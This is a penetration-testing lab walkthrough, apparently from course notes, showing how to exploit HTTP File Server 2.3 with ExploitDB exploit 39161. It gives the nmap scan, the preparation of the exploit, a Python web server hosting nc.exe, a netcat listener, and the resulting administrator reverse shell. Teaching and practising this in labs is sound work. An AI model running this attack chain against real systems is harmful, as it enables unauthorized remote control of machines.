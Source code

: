 # 🔬Fixing Exploits - HFS

## Lab 1

>  🔬 [Windows: HTTP File Server](https://attackdefense.com/challengedetails?cid=1945)
>
>  - Same as the [HFS - MSF Exploit Lab](../../hostnetwork-penetration-testing/3-metasploit/hfs-msf-exp.md)
>  - Target IP: `10.2.23.79`
>  - Manually exploit the target with **ExploitDB exploits**
>  - Attacker machine is offline

```bash
nmap -sV 10.2.23.79
```

```bash
80/tcp    open  http               HttpFileServer httpd 2.3
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49165/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

- Use `searchsploit` to identify `HttpFileServer httpd 2.3` vulnerabilities

```bash
searchsploit HTTP File Server 2.3
```

![searchsploit HTTP File Server 2.3](.gitbook/assets/image-20230423132333200.png)

- Copy the exploit to the Desktop

```bash
cd Desktop/
searchsploit -m 39161
```

### Analyzing the Exploit

```bash
vim 39161.py
```

![](.gitbook/assets/image-20230423132623415.png)

- Read the exploit
  - *You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe). You may need to run it multiple times for success!*
  - `ip_addr` - change to attacker Kali Linux IP
  - `local_port` - change to 1234

### Execute the Exploit

- Save and run the exploit

```bash
# In a new terminal session
cd Desktop/
cp /usr/share/windows-resources/binaries/nc.exe .
python -m SimpleHTTPServer 80
```

```bash
# In a new terminal session
# Run the netcat listener on the exploit specified "local_port"
nc -nvlp 1234
```

```bash
# From the first terminal windows, run the exploit
python 39161.py 10.2.23.79 80
```

```bash
whoami
	win-omcnbkr66mn\administrator
systeminfo
```

![](.gitbook/assets/hfs-netcat-exp.gif)

------

